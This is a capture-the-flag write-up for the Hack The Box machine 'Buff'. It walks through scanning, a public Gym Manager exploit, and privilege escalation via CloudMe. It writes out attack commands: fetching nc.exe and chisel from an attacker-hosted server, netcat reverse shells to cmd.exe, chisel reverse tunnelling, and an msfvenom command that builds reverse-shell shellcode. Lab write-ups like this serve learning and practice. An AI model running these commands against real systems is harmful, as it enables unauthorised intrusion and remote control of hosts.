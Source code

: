 +++
title = "HTB - Buff"
+++

<h1> <span style="color:#da1953">HTB</span> - Buff</h1>

![Cover](/writeups/htb_buff/cover.png)

<h1> <span style="color:#da1953">Ind</span>ex</h1>

- [Scanning](#SCAN)
- [Exploiting Gym Manager](#EXPGYM)
- [Upgrading the shell](#UPSHELL)
- [User flag](#UFLAG)
- [Privilege escalation](#PRIVESC)
  - [Search vulnerable process](#VULNPROC)
  - [Finding CloudMe version](#CLOUDVER)
  - [Port forwarding](#PORTFW)
  - [Local exploitation](#LOCALEXP)

<h1 id=SCAN> <span style="color:#da1953">Sca</span>nning</h1>

```text
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

<h1 id=EXPGYM> <span style="color:#da1953">Exp</span>loiting Gym Manager</h1>

The scannig reveals that there is a webserver running on port 8080 so I go to check it hoping to find some interesting information.  
In the page *contact* there is a information about the sofware used to build the site which is:<br>
`Gym Manager Software 1.0`.

![CMS](/writeups/htb_buff/1.png)

Searching a vulnerability or and exploit for, it leads me in [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).  
Then I donwloaded and run it as `python 48506.py http://10.10.10.198:8080/` and it ended up exploiting the software and giving me a shell.  
I can't do much with this shell, I cant change directory or do any other stuff so I need to upgrade the shell.

<h1 id=UPSHELL> <span style="color:#da1953">Upg</span>rading the shell</h1>

In order to do so I decided to download netcat (nc) to the server and it includes few steps:

1. Open a webserver in my kali inside my Buff folder that I created to solve the box where I have all the exploits and programs `sudo python3 -m http.server 8080`
    ![Python Web Server.png](/writeups/htb_buff/2.png)
2. From the box I can connect to the python http server and download file, to do that there are two ways:
    1. `powershell iwr http://10.10.14.197:8080:/nc.exe -outf nc.exe`
    2. `curl http://10.10.14.197:8080/nc.exe -o nc.exe`<br><br>
        ![Download.png](/writeups/htb_buff/3.png)  
        In the directory there are also other users artifacts.

Once Downloaded I open a listener on my kali `nc -lvp 4444` and a client on the box in a way that upon connecting it will execute a command `nc.exe 10.10.14.197 4444 -e cmd.exe` it will result on havin a command of the box on my kali machine.

![Exploit](/writeups/htb_buff/4.png)

<h1 id=UFLAG> <span style="color:#da1953">Use</span>r flag</h1>

Once got the shell I can move to the location of the user flag.

![User flag](/writeups/htb_buff/5.png)

<h1 id=PRIVESC> <span style="color:#da1953">Pri</span>vilege escalation</h1>

<h2 id=VULNPROC>Search vulnerable process</h2>

To search a vulnerable process its possible to use `winpeas.exe` but in my case I checked one by one and search for them on google to see which one is vulnerable and I ended up finding `CloudMe.exe`.

Searching for an exploit I ended up finding many and various version of cloudme’s version.

<h2 id=CLOUDVER>Finding CloudMe version</h2>

While I dont have administrator provilege I cant see the version of the program with `tasklist` or `Get-Proces` so I had to look around to see if I find something.  
At the end the executable was in the `shaun` user’s Download folder, which contains also the version nuber in the name.

![Finding Cloudme version](/writeups/htb_buff/6.png)

<h2 id=PORTFW>Port forwarding</h2>

I noticed that CloudMe runs on localhost port 8888 so there is no chance that I can remotly exploit it and neither locally because the script is in python and python is not installed in the box.  
So I used `chisel` to forward the connection. I had to donwloaded a precompiled version for windows and linux from [https://github.com/jpillora/chisel/releases/](https://github.com/jpillora/chisel/releases/).  
I loaded chisel in the box in the same way as nc.  
From my kali machine I opened a server as shown in [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)  
`./chisel server -p 7777 --reverse` and a client in the box as `chisel client 10.10.14.187:7777 R:8888:127.0.0.1:8888`

![Chisel port forwarding](/writeups/htb_buff/7.png)

<h2 id=LOCALEXP>Local Exploitation</h2>

Now my choice of exploit comes down to four possibilities.

![Local exploit](/writeups/htb_buff/8.png)  
And I choosed the PoC one.  
After opening the exploit it suggest a command line to enerate a shellcode, so I generated a shellcode that I need in order to exploit CloudMe and give a reverseshell.  
`msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.197 1111 -e cmd.exe' -b '\x00\x0A\x0D' -f python`  
Now I have replaced the new shell code with the old one inside the script.  
Once exploited the CloudMe it will invoke nc.exe and try to connect to my kali machine so befor that I have to linste in port 1111.  
And run the exploit from another shell.  

![Privilege escalation](/writeups/htb_buff/9.png)  
And the root flag is in the administrator desktop.
